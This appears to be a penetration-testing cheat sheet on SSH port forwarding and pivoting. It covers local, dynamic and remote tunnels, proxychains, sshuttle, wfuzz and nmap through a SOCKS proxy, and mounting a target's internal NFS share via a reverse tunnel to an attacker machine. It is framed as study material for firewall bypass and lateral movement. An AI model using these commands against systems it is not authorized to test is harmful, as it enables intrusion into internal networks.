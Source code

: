 # Port Forwarding Techniques

### Guides

Tunneling and Pivoting Techniques (GIAC): https://www.giac.org/paper/gwapt/4686/tunneling-pivoting-web-application-penetration-testing/120229

### Local SSH Port Forwarding to Bypass Firewalls

The SSH server redirects data from a specified port (which is local to the host running the SSH client e.g. Kali/attacker) through a secure tunnel to a specified destination host and port. This sometimes allows bypass of firewall rules.

Have shell access -> enum'd a new port/service via. `netstat` but can't access it from within the target / blocked?
```
$ ssh -L [local_port]:[target/jumpbox]:[blocked_port] [user]@[target]

# example - bypass blocked HTTP service on port 80
$ ssh -L 80:192.168.218.99:80 bob@192.168.218.99
```

### Dynamic Port Forwarding

This will allow you to access internal network services on dynamic (as opposed to static) ports.

Proxychains
1. Ensure `/etc/proxychains4.conf` is setup with the preferred port (deafult is `9050`).
2. Establish SSH tunnel with proxy server `$ kali> sudo ssh -N -D 127.0.0.1:9050 username@proxy_server/jump_box`
3. Run commands `$ proxychains curl http://[internal_target]`

Sshuttle
```
$ sshuttle user@[proxy_server] [internal_cidr]
$ sshuttle hello@10.11.1.251 10.1.1.0/24
```

Directory brute-force example
* Wfuzz works well, Gobuster requires some setup.
```
$ wfuzz -p 127.0.0.1:9050:SOCKS4 -c -w [/path/to/wordlist] --hc=404 http://[internal_target]/FUZ
```

Nmap scanning via. Proxychains example
```
$ proxychains nmap -Pn -sT -sV [target]
```

### Remote Port Forwarding

SSH remote port forwarding is for opening a connection from within the target -> Kali.
* Can bypass inbound firewall restrictions to SSH (as outbound connection is used).
* Can be used to access a target's localhost services from Kali (see NFS below)
```
# Mount a target's localhost NFS share
$ target> ssh -N -R [kali]:2049:127.0.0.1:2049 kali@[kali_ip]
$ kali> mount -t nfs 127.0.0.1:/ /mnt -o nolock
```


